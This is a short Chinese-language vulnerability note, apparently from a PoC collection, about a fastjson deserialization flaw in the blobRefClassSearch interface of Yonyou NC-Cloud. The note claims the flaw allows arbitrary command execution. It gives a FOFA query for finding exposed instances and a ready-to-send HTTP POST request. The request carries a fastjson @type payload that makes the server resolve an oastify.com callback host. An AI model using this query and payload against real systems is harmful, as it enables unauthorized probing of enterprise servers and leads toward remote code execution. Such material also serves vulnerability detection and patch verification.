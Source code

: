 **fofa**

app="用友-NC-Cloud"

**一、漏洞简述**

用友NC以“全球化集团管控、行业化解决方案、全程化电子商务、平台化应用集成”的管理业务理念而设计，采用J2EE架构和先进开放的集团级开发平台UAP，形成了集团管控8大领域15大行业68个细分行业的解决方案，是中国大企业集团管理信息化应用系统的首选。其接口blobRefClassSearch存在fastjson反序列化漏洞，攻击者可通过该漏洞执行任意命令控制服务器。

**二、漏洞检测poc**

```yaml
POST /ncchr/pm/ref/indiIssued/blobRefClassSearch HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/json
Content-Length: 146

{"clientParam":"{\"x\":{\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"111111.j3nmzhym834g0t5n9dv5kupkrbx2ls9h.oastify.com\"}}}"}
```

